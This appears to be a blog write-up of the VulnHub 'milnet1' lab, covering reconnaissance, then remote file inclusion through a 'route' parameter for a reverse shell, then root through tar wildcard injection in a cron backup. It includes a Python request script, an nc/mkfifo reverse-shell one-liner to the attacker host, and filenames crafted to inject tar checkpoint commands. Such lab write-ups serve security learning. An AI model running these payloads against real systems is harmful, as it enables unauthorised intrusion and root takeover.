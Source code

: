 ```yaml
---
layout: post
title: "milnet1"
date: 2016-07-28 14:47:38 -0500
comments: true
categories: [vulhub, LFI, RFI]
---
```


###Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto
* Tamper Data



<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`
{% img  /images/blog/vulhub/milnet1/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.154 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.154 -p-`

{% img  /images/blog/vulhub/milnet1/Selection_002.png   [title manually exploit [alt text]] %}

port 22 and 80 are opening


use nmap to run http-enum script:

`nmap 192.168.41.154 -p80 --script http-enum`

{% img  /images/blog/vulhub/milnet1/Selection_003.png   [title manually exploit [alt text]] %}

The info.php file exists.

{% img  /images/blog/vulhub/milnet1/Selection_005.png   [title manually exploit [alt text]] %}

use nikto to scan

`nikto -h 192.168.41.154`

{% img  /images/blog/vulhub/milnet1/Selection_006.png   [title manually exploit [alt text]] %}

use wfuzz to scan

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.41.154/FUZZ 2>/dev/null`

nothing cool.

I use Tamper Data to exam the GET/POST request parameters.


{% img  /images/blog/vulhub/milnet1/Selection_007.png   [title manually exploit [alt text]] %}

find an interesting parameter. setup a netcat listerner, and change the parameter value to `http://192.168.41.149/reverse?`

(Here, at first I used reverse.php which created a local reverse shell back to my Kali. I guess there is a filter in target can filter php file, so I just remove .php)

get the shell:

{% img  /images/blog/vulhub/milnet1/Selection_009.png   [title manually exploit [alt text]] %}

In order to make the process easier, I create a short script [send_post.py](https://github.com/wg135/script/blob/master/send_post.py):

```python send_post.py
#!/usr/bin/env python
#send post requst to the target

import requests
import json

url= 'http://192.168.41.154/content.php'

headers = {
	"Host" : "192.168.41.154",
	"User-Agent" : "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0",
	"Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language" : "en-US,en;q=0.5",
	"Accept-Encoding" : "gzip, deflate",
	"Referer" : "http://192.168.41.154/nav.php",
	"Connection" : "keep-alive",
	"Content-Type" : "application/x-www-form-urlencoded",
	"Content-Length" : "40"
}

payload = {
	"route" : "http://192.168.41.149/reverse?"
}


r = requests.post(url, headers=headers, data=payload)
print (r.status_code)
```

Next enumeration, no luck on kernerl exploit, check contab job.

`cat /etc/cron*`

got `/etc/crontab`

{% img  /images/blog/vulhub/milnet1/Selection_010.png   [title manually exploit [alt text]] %}

read that file

`cat /etc/crontab`

{% img  /images/blog/vulhub/milnet1/Selection_011.png   [title manually exploit [alt text]] %}

found an interesting file: `/backup/backup.sh`

check that file

{% img  /images/blog/vulhub/milnet1/Selection_012.png   [title manually exploit [alt text]] %}

it uses tar. Searched exploits, no luck.

Under path `/home/langman/SDINET`, I found a file `DefenseCode_Unix_WildCards_Gone_Wild.txt` shows tar cdode execution,

{% img  /images/blog/vulhub/milnet1/Selection_013.png   [title manually exploit [alt text]] %}

in kali:

`nc -nlvp 443`

in target:

```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.41.149 443 > /tmp/f" > shell.sh
$ touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
$ touch "/var/www/html/--checkpoint=1"
```

get the root:

{% img  /images/blog/vulhub/milnet1/Selection_014.png   [title manually exploit [alt text]] %}


